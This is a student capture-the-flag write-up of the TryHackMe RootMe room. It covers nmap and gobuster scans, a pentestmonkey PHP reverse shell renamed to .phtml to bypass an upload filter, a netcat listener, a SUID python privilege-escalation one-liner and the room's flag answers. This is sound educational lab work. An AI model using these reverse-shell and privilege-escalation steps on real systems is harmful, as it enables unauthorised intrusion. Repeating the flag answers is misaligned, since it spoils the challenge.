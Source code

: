 ```yaml
---
Title: SWS101
categories: [SWS101, CTF Journal1]
tages: [SWS101]
---
```


### Topic : TryHackMe Rooms (RootMe)
----
![alt text](<../Screenshot 2024-05-23 061118.png>)
Task 1: Deploy the Machine

Establish a connection to the TryHackMe network using OpenVPN.
Deploy the virtual machine.
Create directories for the CTF machine and Nmap on the Desktop:

![alt text](../image.png)

mkdir rootme
cd rootme
mkdir nmap

Task 2: Reconnaissance

Scan the machine with Nmap:

nmap -sC -sV -oN nmap/rootme <MACHINE_IP>

![alt text](../image-1.png)

Q1: How many ports are open?
Answer: 2

Q2: What version of Apache is running?
Answer: 2.4.29

Q3: What service is running on port 22?
Answer: ssh

Find directories on the web server using GoBuster:

gobuster dir -u http://<MACHINE_IP> -w <PATH_TO_WORDLIST> -o -q

![alt text](../image-2.png)

Q4: What is the hidden directory?
Answer: /panel/

Task 3: Getting a Shell

Navigate to <MACHINE_IP>/panel/ and find the file upload form.

![alt text](../image-3.png)

![alt text](../image-4.png)

![alt text](../image-5.png)

Download the PHP reverse shell script:
git clone https://github.com/pentestmonkey/php-reverse-shell
Edit the script to set IP and port.
Rename the script to bypass upload restrictions:
mv php_reverse_shell.php php_reverse_shell.phtml
Upload the renamed script.

![alt text](../image-6.png)

Set up a Netcat listener:
nc -lvnp 1234

Execute the uploaded script by navigating to <MACHINE_IP>/uploads/php_reverse_shell.phtml.

Find the flag:

find / -type f -name user.txt 2> /dev/null
cat /var/www/user.txt

Q5: What is the flag in user.txt?
Answer: THM{y0u_g0t_a_sh3ll}

Task 4: Privilege Escalation

Search for files with SUID permission:

find / -type f -user root -perm -4000 2>/dev/null

Q6: Which file is weird?
Answer: /usr/bin/python
Use GTFOBins to find a suitable privilege escalation command for Python.

Run the command to escalate privileges:
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Verify root access:

whoami
Find the root flag:

find / -type f -name root.txt
cat /root/root.txt

Q7: What is the flag in root.txt?
Answer: THM{pr1v1l3g3_3sc4l4t10n}

conclusion

In this challenge, we successfully deployed and connected to a virtual machine on TryHackMe. Through systematic reconnaissance using Nmap, we identified two open ports and discovered the services running on them. Further exploration with GoBuster revealed a hidden directory, leading us to a file upload vulnerability.

By utilizing a modified PHP reverse shell script, we gained a foothold on the system. From there, we escalated our privileges by leveraging a misconfigured SUID binary, achieving root access. Finally, we located and captured both user and root flags, demonstrating effective use of enumeration, exploitation, and privilege escalation techniques.

This exercise highlights the importance of thorough scanning, the utility of publicly available tools and scripts, and the necessity of proper system configuration to prevent such vulnerabilities.